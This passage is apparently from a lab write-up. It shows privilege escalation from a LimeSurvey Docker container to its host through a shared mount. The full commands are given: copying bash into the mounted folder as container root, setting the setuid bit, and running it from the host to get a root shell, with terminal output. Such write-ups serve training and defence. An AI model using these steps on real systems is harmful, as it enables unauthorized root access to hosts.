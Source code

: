 ```
drwxr-xr-x   3 limesvc limesvc 4.0K Nov 27  2023 plugins
-rw-rw-r--   1 limesvc limesvc 2.2K Nov 27  2023 psalm-all.xml
-rw-rw-r--   1 limesvc limesvc 1.1K Nov 27  2023 psalm-strict.xml
-rw-rw-r--   1 limesvc limesvc 1.1K Nov 27  2023 psalm.xml
-rw-rw-r--   1 limesvc limesvc 1.7K Nov 27  2023 setdebug.php
drwxr-xr-x   5 limesvc limesvc 4.0K Nov 27  2023 themes
drwxr-xr-x   6 limesvc limesvc 4.0K Dec  8 16:27 tmp
drwxr-xr-x   9 limesvc limesvc 4.0K Nov 27  2023 upload
drwxr-xr-x  36 limesvc limesvc 4.0K Nov 27  2023 vendor
```
We can confirm it by running `findmnt` from container
```
limesvc@efaa6f5097ed:/$ findmnt
<SNIP>
|-/etc/resolv.conf      /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/resolv.conf]
|                                                  ext4    rw,relatime,discard,e
|-/etc/hostname         /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hostname]
|                                                  ext4    rw,relatime,discard,e
|-/etc/hosts            /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hosts]
|                                                  ext4    rw,relatime,discard,e
`-/var/www/html/survey  /dev/root[/opt/limesurvey] ext4    rw,relatime,discard,e

```
We can see that docker process is running as `root`
```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ps -aef
UID          PID    PPID  C STIME TTY          TIME CMD
<SNIP>
root         677       1  0 15:35 ?        00:00:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root         951     677  0 15:35 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.17.0.2 -container-port 80
root         957     677  0 15:35 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 80 -container-ip 172.17.0.2 -container-port 80
root         980       1  0 15:35 ?        00:00:01 /usr/bin/containerd-shim-runc-v2 -namespace moby -id efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d -address /run/containerd/containerd.sock
<SNIP>
```

We can try [to create a bash suid file in the mounted folder inside the container and execute it from the host to privesc](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Now we run the following commands inside the container as `root` in mounted directory
```
root@efaa6f5097ed:/var/www/html/survey# cp /bin/bash ./privesc
cp /bin/bash ./privesc
root@efaa6f5097ed:/var/www/html/survey# chown root:root ./privesc
chown root:root ./privesc
root@efaa6f5097ed:/var/www/html/survey# chmod 4777 ./privesc
chmod 4777 ./privesc
```

Then invoke binary from the host
```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ./privesc -p
privesc-5.1# whoami
root
privesc-5.1# 
```

[https://api.vulnlab.com/api/v1/share?id=ef9f5fc4-cc12-4c09-9dae-35c9e7c819ef](https://api.vulnlab.com/api/v1/share?id=ef9f5fc4-cc12-4c09-9dae-35c9e7c819ef)